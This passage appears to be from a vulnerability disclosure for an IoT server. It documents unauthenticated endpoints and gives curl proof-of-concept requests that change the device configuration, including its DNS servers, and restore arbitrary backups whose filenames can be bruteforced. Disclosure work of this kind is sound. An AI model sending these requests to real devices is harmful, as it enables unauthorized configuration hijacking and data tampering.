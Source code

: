 There are 3 other unprotected functions which yield unclear security impact and
were not investigated further, but are nevertheless included.

### Reproduction
_Remote Configuration Change_

The service located at `/service/init` is responsible for configuration
management. When sending it an HTTP PATCH request, the supplied JSON formatted
configuration will be interpreted and saved. This allows the configuration of
different important settings such as DNS servers.

``` shell
curl -i -s -k -X 'PATCH'																		\
-H 'Host: iot-server'																			\
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0'	\
-H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5'											\
-H 'Accept-Encoding: gzip, deflate'																\
-H 'Referer: https://iot-server/refUI/'															\
-H 'Content-Type: application/json'																\
-H 'X-Requested-With: XMLHttpRequest'															\
-H 'Content-Length: 267'																		\
-H 'Connection: close'																			\
--data-binary '{"configurations":{"hostname":"vriot1","dns":"8.8.8.8","timezone":"America/Los_Angeles","ipv4_mode_radio":"1","ip-address":"iot-server","dns2":"8.8.4.4","gateway":"10.10.10.1","subnet-mask":"255.255.255.0","systemtime":["1",null,"ntp.ubuntu.com"],"key":"","cert":""}}' \
'https://iot-server/service/init'
```

The device needs to reboot it's services, which should all happen automatically
  as part of it's routine, and only then the change will take effect.

---

_Manipulation of Arbitrary Backups_

The backup manipulation service, which is located at `/service/v1/db`,
allows for three operations: loading, downloading and deletion of backup files. 

Loading backups:

When sending an HTTP POST request to `/service/v1/db/restore` the server will
restore the backups file requested in the request body. This name can be either
known beforehand or bruteforced, as the filename follows a specific pattern.

``` shell
curl -i -s -k -X 'POST'																			\
-H 'Host: iot-server'																			\
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0'	\
-H 'Accept: */*'																				\
-H 'Accept-Language: en-US,en;q=0.5'															\
-H 'Accept-Encoding: gzip, deflate'																\
-H 'Referer: https://iot-server/refUI/'															\
-H 'Content-Type: application/json'																\
-H 'X-Requested-With: XMLHttpRequest'															\
-H 'Content-Length: 54'																			\
-H 'Connection: close'																			\
--data-binary '{"fileName":"VRIOT_DB_2019-09-27-00-48-59_GMT.tar.gz"}'							\
'https://iot-server/service/v1/db/restore'
```
